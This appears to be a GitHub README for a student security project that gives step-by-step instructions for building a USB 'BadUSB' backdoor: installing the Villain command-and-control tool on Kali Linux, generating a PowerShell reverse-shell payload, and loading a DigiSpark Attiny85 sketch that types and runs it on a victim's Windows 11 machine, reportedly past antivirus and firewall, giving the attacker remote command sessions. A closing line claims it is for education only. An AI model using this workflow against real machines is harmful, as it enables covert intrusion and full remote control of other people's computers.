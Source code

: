 # Network-Security

# Requirements:
•	 Kali Linux (attacker’s machine) <br>
•	 Windows 11 (victim’s machine) <br>
•	 Villain Tool on Kali Linux <br>
•	 DigiSpark Attiny85 <br>
•	 Arduino IDE <br>

# Installing Villain Tool
Install the latest version of Villain manually:
```
sudo git clone https://github.com/t3l3machus/Villain.git
```
![1](https://github.com/mishqatabid/Network-Security/assets/145700715/09fc9dac-f0db-40b0-a0f4-40429e2849f9)

Install the `requirements.txt` 
```
cd ./Villain
pip3 install -r requirements.txt
```
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/bf6b1320-018e-4696-9bfa-531802b8824a)

You should also install `gnome-terminal` (required for one of the framework's commands):
```
sudo apt update&&sudo apt install gnome-terminal
```

![3](https://github.com/mishqatabid/Network-Security/assets/145700715/193d2fe2-69b8-4d75-bb41-f9f8c4a05611)

Now it is ready to use<br>

![4](https://github.com/mishqatabid/Network-Security/assets/145700715/58e48912-81fa-4e9f-9c00-8142a1c0b8ec)<br>

# Generate & Test Payload
## Generating Payload
As Villain tool is operating, we will use it to generate to generate the required payload for our backdoor. <br>
To generate the payload, write the keyword generate, specify the type of payload you want to generate, then specify the local host and click enter to get the desired payload
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 
```
![5](https://github.com/mishqatabid/Network-Security/assets/145700715/9ce703b6-b38c-490d-95fb-2053b6abdf96)

## Testing Payload
•	 The payload is generated and it’s time to test the payload. <br>
•	 For testing we are using Windows 11<br>
•	 Open the PowerShell, paste the payload on shell and click enter <br>
•	 You can witness that the payload is running successfully and have bypassed the Windows Antivurus and Firewall

![8](https://github.com/mishqatabid/Network-Security/assets/145700715/0cdfab1e-1864-4f2a-88b6-769287d7126c)

# Deploying Payload
•	 To deploy the payload, we will download the [Arduino IDE](https://www.arduino.cc/en/software)<br>
•	 Open the IDE, create a new sketch file and write down the code for Digispark Attiny85.<br> 
•	 The [Sketch](https://github.com/mishqatabid/Network-Security/blob/main/sketch.ino) is then compiled and uploaded on Arduino present in Digispark Attiny85<br>

![9](https://github.com/mishqatabid/Network-Security/assets/145700715/72708055-3aa5-4420-997f-4c04f5cfc400)

# Backdoor
•	 Now when the victim inject the Attiny85 in its machine. <br>
•	 After few seconds, search bar is opens and PowerShell is searched
•	 It opens the PowerShell, then automatically pastes the payload and click enter to execute it.
•	 Once the script is executed you can witness that a backdoor session has been established on the Villain terminal on attacker’s machine.

![1](https://github.com/mishqatabid/Network-Security/assets/145700715/14a21b81-32fb-4aea-a391-cf8f05fcc434)

•	 Now by typing sessions on the Villain terminal, you can see all the possible session that has been established using the payload.
•	 It contains `Session ID`, `IP Address`, `OS Type`, `User`, `Owner` and `Status`.
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/2e9c453d-733a-4f26-a2a0-6d2f5fb5daeb)
![3](https://github.com/mishqatabid/Network-Security/assets/145700715/5573c2c2-8853-424c-8717-e8e0e623f528)

Now the backdoor has been created, you can easily execute any command

# Use this for Education Purpose ONLY
